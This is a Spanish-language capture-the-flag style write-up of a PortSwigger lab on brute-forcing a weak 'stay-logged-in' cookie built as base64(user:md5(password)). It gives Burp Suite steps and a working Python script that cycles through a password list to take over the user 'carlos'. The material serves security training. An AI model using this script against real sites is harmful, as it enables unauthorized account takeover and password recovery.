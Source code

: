 ```yaml
---
title: "09 Brute-forcing a stay-logged-in cookie"
collection: publications
category: portswigger
permalink: publications/Authentication/09_Brute-forcing a stay-logged-in cookie
excerpt: 'Este laboratorio permite a los usuarios permanecer conectados incluso después de cerrar la sesión del navegador. La cookie utilizada para proporcionar esta funcionalidad es vulnerable a la fuerza bruta.'
date: 2024-12-05
#venue: 'Journal 1'
#slidesurl: 'http://academicpages.github.io/files/slides1.pdf'
#paperurl: 'http://academicpages.github.io/files/paper1.pdf'
citation: 'Brute-forcing a stay-logged-in cookie'
---
```


![logo]({{site.url}}/images/Authentication/authentication-lab-09/logo.png)

## Descripción del laboratorio

![Descripción]({{site.url}}/images/Authentication/authentication-lab-09/descripcion.png)

## Objetivo del laboratorio

Para resolver el laboratorio, fuerza bruta la cookie de Carlos para acceder a su `My account page`.

## Recursos Necesarios

* [Contraseñas](https://portswigger.net/web-security/authentication/auth-lab-passwords)

## Analisis

Probamos la autenticación con un usuario valido con el cual tengamos las credenciales y vemos el proceso de login desde el BurpSuite.

![login]({{site.url}}/images/Authentication/authentication-lab-09/login.png)

Ese `Set-Cookie: stay-logged-in` es un codigo que podemos desencriptar

![login2]({{site.url}}/images/Authentication/authentication-lab-09/login2.png)

La cookie trae esta información

![Cookie]({{site.url}}/images/Authentication/authentication-lab-09/cookie.png)

Verificamos, que tipo de encriptación es. La aplicación nos arroja que es MD5 y el contenido es `peter`

![Crack]({{site.url}}/images/Authentication/authentication-lab-09/crack.png)

## Brute Force

La estructura de la cookies es: `base64(carlos:md5(password))`

![login3]({{site.url}}/images/Authentication/authentication-lab-09/login3.png)

Vamos a armar la estructura para que BurpSuite pueda realizar el ataque de password

## Codificación HASH MD5

Primero codificamos el password con `HASH MD5`

![Hash]({{site.url}}/images/Authentication/authentication-lab-09/hash.png)

## Añadimos prefijo

Añadimos prefijo, la cual esta en la estructura `carlos:`

![Hash2]({{site.url}}/images/Authentication/authentication-lab-09/hash2.png)

## Codificamos en Base64

Por ultimo codificamos en Base64 la cookie

![Hash3]({{site.url}}/images/Authentication/authentication-lab-09/hash3.png)

## Respuesta

![Respuesta]({{site.url}}/images/Authentication/authentication-lab-09/respuesta.png)

## Aprobado

![Aprobado]({{site.url}}/images/Authentication/authentication-lab-09/aprobado.png)

# Codigo Python

```python
import requests
import sys
import urllib3
import hashlib
import base64

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}

def access_carlos_account(url):

    print("(+) Brute-forcing Carlos's password...")
    with open('passwords.txt', 'r') as file:
        for pwd in file:
            hashed_pwd = 'carlos:' + hashlib.md5(pwd.rstrip('\r\n').encode("utf-8")).hexdigest()
            encoded_pwd = base64.b64encode(bytes(hashed_pwd, "utf-8"))
            str_pwd = encoded_pwd.decode("utf-8")

            # perform the request
            r  = requests.Session()
            myaccount_url = url + "/my-account"
            cookies = {'stay-logged-in': str_pwd}
            req = r.get(myaccount_url, cookies=cookies, verify=False, proxies=proxies)
            if "Log out" in req.text:
                print("(+) Carlos's password is: " + pwd)
                sys.exit(-1)
        print("(-) Could not find Carlos's password.")

def main():
    if len(sys.argv) !=2:
        print("(+) Usage: %s <url>" % sys.argv[0])
        print("(+) Example: %s www.example.com" % sys.argv[0])
        sys.exit(-1)

    url = sys.argv[1]
    access_carlos_account(url)


if __name__ == "__main__":
    main()
```
